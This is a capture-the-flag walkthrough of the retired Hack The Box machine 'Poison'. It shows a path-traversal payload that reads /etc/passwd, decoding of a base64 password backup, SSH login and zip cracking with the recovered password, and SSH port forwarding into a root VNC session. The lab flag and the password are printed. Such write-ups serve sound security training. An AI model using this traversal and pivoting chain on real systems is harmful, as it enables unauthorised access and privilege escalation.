









hackthebox Poison
Released: 24th March 2018 / Pwned: 24th October 2019 - [+] Solved whilst Retired

Poison is a FreeBSD machine. A web server leads you to an encrypted password backup, which upon decryption you can use to gain access to box via ssh. Using the same decrypted password, you extract a zip file in the user's home folder. There's VNC session running as root. If you port forward the VNC session out to your attacking machine, you can log in to the root VNC session using the password file extract from the zip.
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.84
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p <open ports> -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.84
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #mkdir nmap
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.84
[..]
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
5394/tcp filtered unknown
56178/tcp filtered unknown
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #nmap -p 22,80,5394,56178 -T4 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.84
[..]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
| 2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| 256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_ 256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open http Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
5394/tcp closed unknown
56178/tcp closed unknown
[...]
Analysis:
• 22/ssh - Nothing do here, but useful to know for later
• 80/http - A website! Which are always useful to find
2) 80/http - poison.htb
Visit http://10.10.10.84
It appears there's a list of PHP files available to us for “testing�.
listfiles.php sounds interesting.

Ctrl + U to view the source for a better output.
There's a list a files in the current directory.
pwdbackup.txt is taunting us.


It's a password, and it's been encoded “at leat 13 times�.

The password is base64.
You could write a script, or be lazy like me and decode it 13 times over at base64decode.org,

The password is Charix!2#4%6&8(0.
3) /etc/passwd
We need to know whose password this is.
Use the website to include /etc/passwd.
http://poison.htb/browse.php?file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd


There's only 1 real user on the box - charix.
And considering the password has the phrase Charix in it, I'm guessing the backed up, encrypted password is charix's.
Gain Access
4) ssh as charix
SSH into the box as charix, and grab user.txt.
┌─[horace@parrot]─[~/ctf/poison]
└──╼ #ssh charix@10.10.10.84
[...]
Password for charix@Poison: Charix!2#4%6&8(0
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
Welcome to FreeBSD!
[...]
charix@Poison:~ % ls -l
total 8
-rw-r----- 1 root charix 166 Mar 19 2018 secret.zip
-rw-r----- 1 root charix 33 Mar 19 2018 user.txt
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
Priv-Esc
5) secret.zip
There's a secret.zip file... And it requires a password.
charix@Poison:~ % file secret.zip
secret.zip: Zip archive data, at least v2.0 to extract
charix@Poison:~ % unzip secret.zip
Archive: secret.zip
extracting: secret |
unzip: Passphrase required for this entry
Transfer it to your attacking machine with scp.
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #scp charix@10.10.10.84:/home/charix/secret.zip .
[..]
Password for charix@Poison: Charix!2#4%6&8(0
secret.zip 100% 166 5.2KB/s 00:00
Unzip it using unzip and charix's password.
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #unzip secret.zip
Archive: secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
extracting: secret
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #cat secret
��[|Ֆz!
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #file secret
secret: Non-ISO extended-ASCII text, with no line terminators
It's gibberish.
uchardet detects the encoding as WINDOWS-1252, but this doesn't bring any enlightenment.
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #uchardet secret
WINDOWS-1252
└──╼ #iconv -f WINDOWS-1252 -t UTF-8 secret > secret.w1252
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #cat secret.w1252
½¨[|Õ–z!
6) VNC
List the processes running as root on the system with ps aux | grep root.
charix@Poison:~ % ps aux | grep root
[...]
root 529 0.0 0.9 23620 9112 v0- I 13:12 0:00.17 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 1200
[..]
There's a VNC session running as root.
Use socstat -4 to list the listening IPv4 services.
VNC is listening on localhost port 5901.
charix@Poison:~ % sockstat -4
USER COMMAND PID FD PROTO LOCAL ADDRESS FOREIGN ADDRESS
charix sshd 1361 3 tcp4 10.10.10.84:22 10.10.14.18:57480
root sshd 1358 3 tcp4 10.10.10.84:22 10.10.14.18:57480
charix sshd 1088 3 tcp4 10.10.10.84:22 10.10.14.18:49800
root sshd 1085 3 tcp4 10.10.10.84:22 10.10.14.18:49800
www httpd 724 4 tcp4 *:80 *:*
www httpd 720 4 tcp4 *:80 *:*
root sendmail 642 3 tcp4 127.0.0.1:25 *:*
www httpd 641 4 tcp4 *:80 *:*
www httpd 640 4 tcp4 *:80 *:*
www httpd 639 4 tcp4 *:80 *:*
www httpd 638 4 tcp4 *:80 *:*
www httpd 637 4 tcp4 *:80 *:*
root httpd 625 4 tcp4 *:80 *:*
root sshd 620 4 tcp4 *:22 *:*
root Xvnc 529 1 tcp4 127.0.0.1:5901 *:*
root Xvnc 529 3 tcp4 127.0.0.1:5801 *:*
root syslogd 390 7 udp4 *:514 *:*
Unfortunately, we can't connect to the root VNC session because this FreeBSD box doesn't have a VNC client.
Howevre, because 5901 isn't a privileged port, we can use SSH to port forward Poison's 5901 local port out to our attacking machine. This way we can access the roor VNC sesion on Poison from our attacking host.
┌─[root@parrot]─[/home/horace/ctf/poison]
└──╼ #ssh charix@poison.htb -L 5901:localhost:5901
Password for charix@Poison: Charix!2#4%6&8(0
[...]
charix@Poison:~ %
netstat now shows that my attacking machine is listening on port 5901.
┌─[horace@parrot]─[~/ctf/poison]
└──╼ $netstat -panut | grep 5901
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
tcp 0 0 127.0.0.1:5901 0.0.0.0:* LISTEN -
tcp6 0 0 ::1:5901 :::* LISTEN -
Connect to the root VNC session using vncviewer, with -passwd to specify the password file - secret.
┌─[✗]─[horace@parrot]─[~/ctf/poison]
└──╼ #vncviewer -passwd secret 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
[..]
An X window will pop up, and you'll be root.
